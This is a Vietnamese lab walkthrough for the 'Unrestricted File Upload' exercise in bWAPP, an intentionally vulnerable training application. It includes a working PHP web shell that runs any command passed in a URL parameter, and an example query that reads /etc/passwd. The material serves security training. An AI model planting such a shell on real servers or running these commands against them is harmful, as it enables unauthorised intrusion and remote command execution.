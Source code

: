 # bWAPP: Unrestricted File Upload - security level: low
## Mô tả bài lab
bWAPP (Buggy Web Application) là một ứng dụng web có nhiều lỗ hổng bảo mật, bao gồm cả lỗi bảo mật về File Upload, được thiết kế nhằm mục đích giáo dục và đào tạo về an ninh mạng. Nó được phát triển bởi nhóm bảo mật ITsec Games và là một công cụ mã nguồn mở. bWAPP giúp các nhà phát triển, người kiểm tra bảo mật (pentester), và sinh viên nghiên cứu cách thức phát hiện, khai thác và khắc phục các lỗ hổng bảo mật phổ biến trên các ứng dụng web.

## Các bước thực hiện

1. Khởi động bWAPP là log in bằng tài khoản user mặc định `bee:bug`.
2. Trên giao diện chính, chọn `Unrestricted File Upload` và chọn **Hack**.

![alt text](images/5.png)

3. Tạo file `file_upload_bWAPP.php`, file này sẽ được sử dụng để thực hiện lệnh gọi cmd trên ứng dụng web.

```php
<?php
	if(isset($_REQUEST['cmd'])){
	        echo "<pre>";
	        $cmd = ($_REQUEST['cmd']);
	        system($cmd);
	        echo "</pre>";
	        die;
	}
?>
```

4. Sử dụng **Browse** trên giao diện trang web để xác định vị trí file muốn upload, sau đó chọn **Submit**. Ứng dụng sẽ trả về thông báo upload thành công.
5. Chọn **here** trên thông báo để chuyển hướng tới file đã được upload, từ đây ta có thể thay đổi nội dung trên url để thực hiện các lệnh trên cmd. Ví dụ có thể điền thêm vào phía sau url nội dung như `?cmd=cat+/etc/passwd`.

![alt text](images/6.png)
